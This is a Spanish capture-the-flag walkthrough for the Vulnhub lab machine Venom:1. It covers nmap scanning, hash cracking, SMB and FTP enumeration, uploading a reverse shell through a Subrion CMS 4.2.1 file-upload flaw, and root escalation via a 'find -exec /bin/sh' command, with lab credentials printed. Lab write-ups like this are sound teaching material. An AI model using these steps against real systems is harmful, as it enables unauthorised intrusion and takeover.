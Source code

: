 #  Venom:1 - Vulnhub
### SO : Linux
### Dificultad : Fácil

![machine_vulnhub](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/maquina_vulnhub.png)

## Técnicas Utilizadas
- Cracking Hashes
- FTP Enumeration
- Crypto Challenge - Vigenere Cipher
- Subrion CMS v4.2.1 Exploitation - Arbitrary File Upload (Phar files) [RCE]
- Listing system files and discovering privileged information
- Abusing SUID binary (find) [Privilege Escalation]






## Reconocimiento 
Primero vamos a realizar un descubrimiento de hosts, para saber la ip de la maquina que vamos a vulnerar
```css
arp-scan -I ens33 --localnet --ignoredups
```
![arp-scan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/arp-scan.png)

Una vez identificada la IP de la maquina victima, podemos comprobar la conexion entre las maquinas haciendo un ping
```css
ping -c 1 192.169.59.146
```
```ruby
 ping -c 1 192.168.59.146
PING 192.168.59.146 (192.168.59.146) 56(84) bytes of data.
64 bytes from 192.168.59.146: icmp_seq=1 ttl=64 time=1.96 ms

--- 192.168.59.146 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1.959/1.959/1.959/0.000 ms
```
Mediante el TTL podemos averiguar que tipo de SO es la maquina victima ya que las Maquinas suelen tener: `Windows -> 128` , `Linux -> 64`

Seguimos con el descubrimiento de puertos abiertos con *Nmap*
```ruby
nmap -p- -sS --min-rate 5000 -vvvv -n -Pn -sCV 192.168.59.146
```
```ruby
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 64 vsftpd 3.0.3
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  http        syn-ack ttl 64 Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 00:0C:29:40:3C:1F (VMware)
Service Info: Hosts: VENOM, 127.0.1.1; OS: Unix

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21131/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 23654/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 57901/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25025/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: venom
|   NetBIOS computer name: VENOM\x00
|   Domain name: \x00
|   FQDN: venom
|_  System time: 2025-03-04T21:45:46+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: VENOM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   VENOM<00>            Flags: <unique><active>
|   VENOM<03>            Flags: <unique><active>
|   VENOM<20>            Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-time: 
|   date: 2025-03-04T16:15:46
|_  start_date: N/A
|_clock-skew: mean: -6h49m59s, deviation: 3h10m30s, median: -5h00m00s
```
Tenemos 5 puertos abiertos, `21,80,139,443,445` con los servicios vistos anteriormente, vamos a ver que hay en la web que aloja en el puerto `80:http` 
Encontramos algo sospechoso, `ctrl +u` para ver el codigo fuente
![web_sospechoso](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/web_sospehoso.png)
![hash_web](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hash_web.png)

Nos encontramos un Hash que viendo las caracteristicas que posee, como caracteres escritos del {a-f}, tamaño de 32 caracteres, apunta a ser un hash MD5, 
de todas maneras podemos comprobar con `hash-identifier` para corroborar ese hash
![hash_identifier](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hash_identifier.png)

Podemos crackearlo con una web muy conocida que es ![CrackStation](https://crackstation.net/) o de manera local en consola, ya sea con `Hashcat` o `John`
```ruby
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```
![hashcat_cracking](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/hashcat_craking.png)

# ENUMERACION
Nos da de resultado `hostinger`, pareces ser contraseña, tenemos que enumerar un poco mas como los servicios SMB por ejemplo para ver si encontramos usuarios 
para esto podemos usar una herramienta llamada `enum4linux`
```ruby
enum4linux 192.168.59.146
```
![enum4linux](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/enum4linux.png)

tambien se podria enumerar mediante `rpcclient` mediante una sesion nula y luego ir listando los SIDs, Entonces como tenemos el usuario `hostinger` y la contraseña
`hostinger`, vamos a hacer un intento de logeo en `ftp`
![logeoftp](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/logeoftp.png)

Vemos que el .txt tiene informacion importante vamos a analizarlo ahora, son cadenas en base64 si las rompemos tendremos lo siguiente

![vigenere_cifrado](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/cifrado_vigenere.png)

Se esta aplicando el `cifrado vigenere estandar` y nos da la URL donde debemos romperla, claramente este cifrado necesita de una `llave` para poder romperlo, de momento
no tenemos pista de alguna llave, pero recordando al inicio, hubo un hash, que nos sirvio como `contraseña` podemos probar si esa es la key y ver que sucede

![cyberchef](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/cyberchef.png)

# EXPLOTACION

Tenemos ya el decode y otra pista que nos dio el `hint.txt`, se esta aplicando virtual hosting porque nos proporciono una url que es `venom.box`, lo agregamos al 
`/etc/hosts`
![venom_box](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/venombox.png)

tenemos la siguiente pagina, si hacemos un `ctrl + u` para sapear un poco el codigo fuente la pagina es un *Subrion CMS v 4.2*, y hay un `log in` si probamos 
las credenciales de administrador que tenemos que son `dora:E7r9t8@Q#h%Hy+M1234`, estamos adentro como administrador

![configuracion_page](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/configuracion_page.png)

Si clickeamos el simbolo de configuracion nos lleva a una dashboard de URL `http://venom.box/panel/`, y nos especifica mas la version que es un  `Subrion CMS v4.2.1`, esto nos
incita a buscar vulnerabilidades con 
```css
searchsploit subrion 4.2.1
```
![searchsploit](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/searchsploit.png)

Si, miramos bien tenemos varias vulnerabilidas para explotar, descartando algunas como *(CSRF) (Add Admin)* supongo que esta mal escrito, nosotros ya tenemos priviolegios de administrador
podemos hacer un `Arbitrary File Upload` que contenga una reverse shell o algun script del que nos podamos aprovechar

Mirando el codigo, al parecer hay un directorio llamando `uploads` donde se almacenan los archivos cargados

![web_uploads](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/webuploads.png)

Vamos a usar el archivo de PentestMonkey, a ver si curra y logramos el acceso
![revere_monket](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/revsershell_monkey.png)

Ajustando parametros como extension del archivo, Ip y Puerto del atacante ya estamos listo para subirlo, OJO: Analizando el codigo 
![replacepanel](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/replace_panel.png)

Se esta remplazando `/panel por ''` eso quiere decir que al buscar nuestro file upload debe estar en la ruta `http://venom.box/uploads/cmd.phar`
![ruta](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/ruta.png)
![reverseshell_acceso](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/revershell_accesos.png)

hemos obtenido una reverse shell con exito, vamos a hacer el tratamiento de la tty
```ruby
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
          reset xterm
export TERM=xterm
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS
Migramos al usuario `hostinger:hostinger`, y despues de buscar archivos por todo lado, encontramos el `.htaccess` y encontamos lo siguiente
![contra_nathan](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/contrase_nathan.png)

Parece ser la contraseña de Nathan, probamos y efectivamente, para escalar privilegios a root, vemos que tenemos prohibido ejecutar `su` Entonces buscamos binarios con permios SUID
```ruby
find / -perm -4000 2>/dev/null
```
![esacalada_root](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/escalada_a_root.png)

vemos que `find` tiene permisos SUID, entonces visitamos una web bastante conocida para escalar privilegios y bypassear algunos sistemas de seguridad que es:
![FTFOBins](https://gtfobins.github.io/)

```bash
sudo find . -exec /bin/sh \; -quit
```
![resuelto](https://github.com/Jean25-sys/CTFs_Wintx/blob/main/Writeups/vulnhub/images/venom1/resuelto.png)

# HEMOS VULNERADO LA MAQUINA






